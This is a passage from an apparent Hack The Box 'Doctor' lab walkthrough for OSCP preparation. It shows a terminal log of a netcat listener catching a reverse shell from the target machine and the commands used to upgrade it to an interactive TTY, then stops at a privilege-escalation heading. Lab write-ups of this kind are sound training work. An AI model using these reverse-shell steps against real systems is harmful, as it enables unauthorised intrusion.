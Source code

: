 ![Untitled](/assets/images/2022-04-06-doctor/Untitled2.png)

Now, reload archive and get a look at the nc listener:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/doctor]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.209] 40304
bash: cannot set terminal process group (822): Inappropriate ioctl for device
bash: no job control in this shell
web@doctor:~$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
web@doctor:~$ export TERM=xterm
export TERM=xterm
web@doctor:~$ ^Z
zsh: suspended  nc -lvnp 443

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/doctor]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 443

web@doctor:~$ ^C
web@doctor:~$
```

And I have a shell. But I cannot get the flag, so I need to privesc.

# Privesc

---

## web → shaun

---
